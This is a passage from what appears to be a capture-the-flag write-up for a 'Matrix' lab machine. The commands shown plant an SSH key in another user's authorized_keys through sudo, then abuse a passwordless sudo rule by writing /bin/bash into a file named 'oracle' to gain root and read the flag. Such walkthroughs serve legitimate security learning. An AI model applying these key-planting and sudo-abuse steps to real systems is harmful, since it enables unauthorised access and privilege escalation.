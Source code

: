 ```
|   ..o * .=+     |
|    o=E +=B*.    |
+----[SHA256]-----+
guest@matrix:~$
```
Copy our `id_rsa.pub` to /home/trinity/.ssh/ and login it like me 

```
guest@matrix:~/.ssh$ ls
id_rsa  id_rsa.pub  known_hosts
guest@matrix:~/.ssh$ cp id_rsa.pub /home/guest
guest@matrix:~/.ssh$ cd
guest@matrix:~$ chmod 777 id_rsa.pub 
guest@matrix:~$ sudo -u trinity /bin/cp ./id_rsa.pub /home/trinity/.ssh/authorized_keys
guest@matrix:~$ ssh trinity@127.0.0.1 -i /.ssh/id_rsa -p 6464
Warning: Identity file /.ssh/id_rsa not accessible: No such file or directory.
Last login: Thu Jul 30 13:33:19 2020 from 127.0.0.1
trinity@matrix:~$ sudo -l
User trinity may run the following commands on matrix:
    (root) NOPASSWD: /home/trinity/oracle
trinity@matrix:~$ 
```
`oracle` can run as root but we have no oracle file `/home/trinity` directory

Let's create it :)

```
trinity@matrix:~$ echo "/bin/bash" > oracle
trinity@matrix:~$ chmod 777 oracle 
trinity@matrix:~$ sudo ./oracle 
root@matrix:/home/trinity# whoami
root
root@matrix:/home/trinity#

```

```
root@matrix:~# cat flag.txt 


             ,----------------,              ,---------,
        ,-----------------------,          ,"        ,"|
      ,"                      ,"|        ,"        ,"  |
     +-----------------------+  |      ,"        ,"    |
     |  .-----------------.  |  |     +---------+      |
     |  |                 |  |  |     | -==----'|      |
     |  |  Matrix is      |  |  |     |         |      |
     |  |  compromised    |  |  |/----|`---=    |      |
     |  |  C:\>_reload    |  |  |   ,/|==== ooo |      ;
     |  |                 |  |  |  // |(((( [33]|    ,"
     |  `-----------------'  |," .;'| |((((     |  ,"
     +-----------------------+  ;;  | |         |,"     -morpheus AKA (unknowndevice64)-
        /_)______________(_/  //'   | +---------+
   ___________________________/___  `,
  /  oooooooooooooooo  .o.  oooo /,   \,"-----------
 / ==ooooooooooooooo==.o.  ooo= //   ,`\--{)B     ,"
/_==__==========__==_ooo__ooo=_/'   /___________,"
`-----------------------------'

-[ 7h!5 !5 n07 7h3 3nd, m47r!x w!11 r37urn ]-
root@matrix:~# 

```

Now we owned the machine [Enjoy :)]()
